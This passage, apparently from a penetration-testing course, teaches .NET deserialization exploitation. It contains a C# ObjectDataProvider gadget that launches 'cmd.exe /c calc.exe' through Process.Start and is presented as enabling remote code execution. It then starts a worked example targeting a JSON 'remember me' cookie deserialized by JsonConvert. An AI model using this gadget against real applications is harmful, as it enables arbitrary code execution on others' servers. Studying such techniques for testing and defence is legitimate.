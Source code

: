 Note: Don't worry about actually compiling/running the program below, we will get to exploit development in the following sections.

```csharp
using System.Windows.Data;

namespace ODPExample
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectType = typeof(System.Diagnostics.Process);
            odp.MethodParameters.Add("C:\\Windows\\System32\\cmd.exe");
            odp.MethodParameters.Add("/c calc.exe");
            odp.MethodName = "Start";
        }
    }
}

```

Using `ObjectDataProvider`, we can execute arbitrary commands without invoking any methods directly/explicitly.

![image](i9E3aamdjdFa.png)

#### Conclusion

We now have a `gadget` that enables `remote code execution` upon `deserialization`. This is an important part of exploiting `.NET` deserialization vulnerabilities, because we will typically can not use serialized data to directly invoke methods.


# Example 1: JSON

## Discovering the Vulnerability

Let's take a look at one of the potentially vulnerable function calls that we identified in an earlier section, specifically the call to `JsonConvert.DeserializeObject` in `Authentication.RememberMeUtil`.

![image](mMSDkQpb7FOM.png)

Based on the name of the class and related variables, we can assume this bit of code has to do with the application's `"remember me"` functionality. If we log into the website with the credentials `pentest:pentest` and the `"Remember me"` option checked, we can look at our cookies to spot the `"TTREMEMBER"` JSON cookie.

![image](K5BB0kAmF7ey.png)
